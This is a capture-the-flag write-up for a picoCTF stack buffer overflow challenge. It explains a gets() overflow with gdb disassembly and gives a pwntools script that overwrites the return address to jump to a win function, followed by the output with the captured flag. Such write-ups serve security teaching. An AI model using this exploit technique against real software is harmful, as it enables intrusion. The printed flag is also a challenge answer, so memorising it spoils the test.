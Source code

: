 # BOF 1

## Code inspection

Looking at the `vuln` function, we see a clear buffer overflow vulnerability.

Our goal is to jump to the `win` function, which prints the flag.

## Memory layout

Using gdb, we can see that the buffer is at `ebp - 0x28`

```
0x0804929a <+25>:	lea    eax,[ebp-0x28]
0x0804929d <+28>:	push   eax
0x0804929e <+29>:	call   0x8049050 <gets@plt>

```

Let's see the memory layout:

```
[low]

buf             <----- EBP - 40

old_ebp         <----- EBP

return_address  <----- EBP + 4

[high]
```
## Getting the flag

Which means we need to overwrite the 40 bytes of local variables,
the old EBP, and then overwrite the return address to be the one we want.

```python
from pwn import *

exploit_str = "1" * 40 + "2" * 4

conn = connect("saturn.picoctf.net", 59710)

print(conn.recvline().decode())

exploit_str = exploit_str.encode() + p32(0x80491f6)

file = open("bof_exploit", "wb")
file.write(exploit_str)
file.close()

print("Sending {}".format(exploit_str))
conn.sendline(exploit_str)

print(conn.recvline().decode())
print(conn.recv())

conn.close()

```

We get:
```
[x] Opening connection to saturn.picoctf.net on port 59710
[x] Opening connection to saturn.picoctf.net on port 59710: Trying 18.217.86.78
[+] Opening connection to saturn.picoctf.net on port 59710: Done
Please enter your string: 

Sending b'11111111111111111111111111111111111111112222\xf6\x91\x04\x08'
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6

b'picoCTF{addr3ss3s_ar3_3asy_ad2f467b}'
[*] Closed connection to saturn.picoctf.net port 59710

```